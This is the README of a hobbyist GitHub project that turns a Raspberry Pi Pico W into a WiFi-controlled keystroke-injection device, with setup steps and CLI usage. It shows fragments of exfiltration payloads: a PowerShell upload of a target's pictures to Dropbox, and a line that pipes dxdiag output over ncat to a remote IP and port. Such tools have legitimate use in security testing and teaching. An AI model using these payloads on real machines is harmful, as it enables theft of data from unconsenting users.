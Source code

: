 
# Pico ducky with CLI over WiFi

Inspired by [dbisu's pico-ducky project](https://github.com/dbisu/pico-ducky). I decided pick up a [Raspberry Pi Pico W](https://www.raspberrypi.com/documentation/microcontrollers/raspberry-pi-pico.html) myself to experiment and play around with some of the ducky possiblities. I also added a CLI for the already existing web interface made by [dbisu](https://github.com/dbisu/pico-ducky).

### Use this tool and payloads to automate stuff and only for LEGAL purposes! Never target anyone if they DIDN'T give you permission as it is !!!ILLEGAL!!!


https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/9d7aed21-3bb4-4a99-95fe-eb1a02646be1


## Tools needed

Needed for this project:

- Raspberry Pi Pico W
- Micro USB to USB adapter
- Device to control pico through Wi-Fi (Laptop or phone with CLI)
(Optional) - stuff for payloads in this repository.
- Server to listen Ncat requests
- Dropbox access token

## Configuring Pico W

1.  [Download](https://github.com/fortijs40/PICO-w-ducky-CLI/releases/tag/Release_v1.0) everything and un-zip ```Pico.W.release.zip```
2. Plug in Raspberry Pico W to your computer and drag ```adafruit-circuitpython-raspberry_pi_pico_w-en_US-8.0.0.uf2``` into ```RPI-RP2``` and wait till it reboots
3. Copy over these files: ```code.py```  ```boot.py```  ```duckyinpython.py```  ```secrets.py```  ```webapp.py```  ```wsgiserver.py``` and  ```lib``` folder from ``` Pico W Release```  folder
4. Create new payloads or use existing ones
5. !!! ```secrets.py``` Contain wifi login and password for Pico W access point. You can change this or leave as is, but remember the login details.
6. (CAREFUL - if you have created and named script as ```payload1.dd```  it will run automatically after plugging in) Unplug and plug in again the Pico W 
7. You can now connect to ```TestAP``` WiFi access point and use CLI script [```CLI_4_web_ducky.py```](https://github.com/fortijs40/PICO-w-ducky-CLI/releases/download/Release_v1.0/CLI_4_web_ducky.py) for controlling the ducky remotely.
8. Don't do anything illegal and have fun automating stuff.
## Modifying ducky after setting it up

After setting everything up you might want to access the ducky again as mass storage device.

To do so, you need to:
- Connect the ```GP0``` and ```GND``` pin to not launch ```payload1.dd``` immediately after plugging it in (if you don't have ```payload1.dd``` on your ducky, then you can ignore this)
 
![Screenshot](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/0dd89f32-3f50-4a92-9d01-3cd22131d31c)
- Connect the ```GP15``` and ```GND``` pin to have the ducky open up as mass storage device.
![Screenshot](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/b62cd988-538b-4224-9a75-38c92c847a74)
## Main ducky script commands

```GUI r``` is the same as pressing ```win+r```. and can be used to launch ```cmd/powershell and other programs```

```STRING``` is used to type characters an example from my payload to force language to US in powershell
```
STRING Set-WinUserLanguageList -Force en-US

```
```REM``` is used to comment stuff out example from my payload. Everything in the same line after REM is simply ignored

```
REM You can change which ever path you want to the the pictures/files from.
REM Change line 32 to your OWN Dropbox access token
```

```DELAY``` is used to delay ducky from typing more commands and allow previous command to execute before the next one is ran. For example, if automating stuff on slower PC, ```DELAY``` will have to be increased or else the payload might mess up.
In example below ducky will wait 5 seconds after ```ENTER``` before executing next commands.
```
STRING Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
ENTER
DELAY 5000
```
```ENTER``` and ```DELETE``` are quite self explanatory. They can be used by themselves to either delete stuff or enter stuff.

Keys like ```CTRL```, ```ALT```, ```DELETE```,```ESC```,```TAB``` can be chained to gether to execute some of their combos.

More unique commands and keystrokes can be found in duckyinpython.py
## My payloads

I wanted to focus on exfiltration payloads and wanted to construct 2 scenarios with different exfiltration methods.

### 1. [Exfiltration using dropbox API](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/image_grab_n_exfiltrate.dd)

I got inspired from one of [Hack5 payloads](https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/exfiltration/dropbox-exfiltrator) to use dropbox API to exfiltrate some data. So I combined a script of gathering some pictures and the dropbox API script to exfiltrate images to my dropbox.

* One bad thing about this method of exfiltration is that [dropbox no longer supports long-lasting access tokens](https://developers.dropbox.com/oauth-guide#:~:text=Helper%20methods%20accept%20the%20refresh,for%20compatibility%20until%20mid%202021.) and current access tokens expire quite quickly which means the payload also needs to be changed often.

### 2. [Exfiltration using Ncat](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/dxdiag_ncat.dd)
For this exfiltration I wanted to demonstrate that if target system has a tool like Ncat, it can also be used to exfiltrate some information. So this payload is meant to exfiltrate dxdiag file from a Windows system to a remote PC by using ncat which is listening all the time. The script execute time is quite long because dxdiag takes some time. After that I used --ssl to encrypt the traffic.
```
ENTER
REM 12 second delay time to complete the dxdiag, since it takes a bit of time
DELAY 12000
REM takes dxdiag output and sends it over ncat to specific IP and port
STRING Get-Content "$env:TEMP\infins.txt" | ncat --ssl IP PORT
DELAY 100
ENTER
DELAY 5000

```

* This method can only work if target system has ncat installed.
## Web Interface

Web interface from [dbisu's pico-ducky project](https://github.com/dbisu/pico-ducky) was quite simple. 
It contained 6 access points:
- ```192.168.1.4:80/```
- ```192.168.1.4:80/ducky``` Main screen which displays available payloads
- ```192.168.1.4:80/new```  Used to create new payloads
- ```192.168.1.4:80/edit/<file_name>``` Used to edit existing payloads
- ```192.168.1.4:80/write/<file_name>``` Used as POST from edit to overwrite the previous payload
- ```192.168.1.4:80/run/<file_name>``` Execute the payload by its file_name

### Web Interface issues I noticed

* If file is edited or written by using web end points it will replace all ```+``` with ```space' '```. It is something that is needed to be kept in mind.
* Editing big payloads multiple times can sometimes crash the webserver and you will have to replug the ducky
* Editing non existant file will instanlty crash the Pico W webserver

## Command Line Interface
I made a CLI [```cmd_4_web_ducky.py```](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/cmd_4_web_ducky.py) based on provided web endpoints. CLI can be used instead of the web interface since it might be easier to use on some systems rather than the web.

CLI has few options:

- Ability to list names of scripts that are loaded on ducky
```
python ./cmd_4_web_ducky.py -l
or
python ./cmd_4_web_ducky.py --list
```
- Ability to run the loaded in scripts
```
python ./cmd_4_web_ducky.py -r <script_name>
or
python ./cmd_4_web_ducky.py --run <script_name>
```
- Ability to create new scripts based on existing file in the system. 
```
python ./cmd_4_web_ducky.py -c <script_path>
or
python ./cmd_4_web_ducky.py --create <script_path>
```
- Ability to edit files on ducky. Existing file on ducky will get overwritten by the local file and there is a small chance that Pico W webserver might crash if payload is too big.
```
python ./cmd_4_web_ducky.py -e <script_name> <script_path>
or
python ./cmd_4_web_ducky.py --edit <script_name> <script_path>
```
- Ability to show the content of existing scripts on ducky
```
python ./cmd_4_web_ducky.py -s <script_name>
or
python ./cmd_4_web_ducky.py --show <script_name>
```
![cli](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/f947e091-dbc4-4347-a6f2-7cc033307920)
## Revert ducky back to Pico W

To revert pico ducky back to regular Pico W:

* Unplug the ducky
* Hold ```BOOTSEL``` button on Pico W and plug it in while holding down the button. It will open mass storage to reset the Pico W
* Download [flash.nuke.uf2](https://datasheets.raspberrypi.com/soft/flash_nuke.uf2)
* Drag ```flash.nuke.uf2``` it into ```RPI-RP2```
* After reset Pico W should be flashed and clean
